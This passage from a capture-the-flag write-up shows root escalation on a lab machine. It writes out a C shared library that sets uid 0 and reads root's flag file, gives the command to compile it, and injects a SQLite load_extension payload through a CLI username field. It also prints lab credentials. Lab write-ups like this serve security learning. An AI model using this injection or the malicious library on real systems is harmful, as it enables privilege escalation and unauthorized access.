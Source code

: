 ```bash
6. Exit
Select option:
```

Analyzing the source code we find a possible RCE via load_extension: [Link](https://www.sqlite.org/c3ref/load_extension.html) (use ghidra).
![Pasted image 20240713220251.png](/images/Pasted image 20240713220251.png){: .normal }


Create the C exploit.
```bash
tom@drive:~$ cat exploit.c
#include <stdlib.h>
#include <unistd.h>
void sqlite3_a_init() {
    setuid(0);
    setgid(0);
    system("/usr/bin/cat /root/root.txt > /tmp/a.txt");
}
```

Compile it.
```bash
tom@drive:~$ gcc -shared exploit.c -o a.so -nostartfiles -fPIC
```

Exploitation.
```bash
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))+"
Activating account for user '"+load_extension(char(46,47,97))+"'...
```

Root flag: `76ffa0d9329de2fa9dc9b9e0250fac37`
```bash
tom@drive:/tmp$ cat a.txt
76ffa0d9329de2fa9dc9b9e0250fac37
```


## PWNED!!!
![Pasted image 20240713220243.png](/images/Pasted image 20240713220243.png){: .normal }